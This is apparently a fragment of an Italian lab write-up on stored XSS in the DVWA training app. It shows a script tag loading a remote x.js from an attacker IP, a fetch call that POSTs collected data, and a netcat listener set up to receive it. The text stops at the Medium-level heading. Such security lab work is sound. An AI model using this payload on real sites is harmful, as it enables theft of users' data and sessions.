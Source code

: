    ```javascript
       method: 'POST',
       headers: { 'Content-Type': 'application/json' },
       body: JSON.stringify(data)
   });
   ```

### **2️⃣ Step 2: Inserimento Payload**

Inserisci il seguente payload nel campo **Message** di DVWA:

```html
<script src="http://192.168.50.165/x.js"></script>
```

### **3️⃣ Step 3: Avvia il Listener**

Configura un listener su Kali per ricevere i dati:

```bash
sudo nc -lvnp 4444
```

### **4️⃣ Step 4: Risultati**

Quando il commento viene visualizzato, i dati raccolti dal file `x.js` vengono inviati al listener.

![XSS Stored Low](./Screenshots/XSSStoredLow.png)

---

## ⚙️ Attacco XSS Stored - Livello Medium
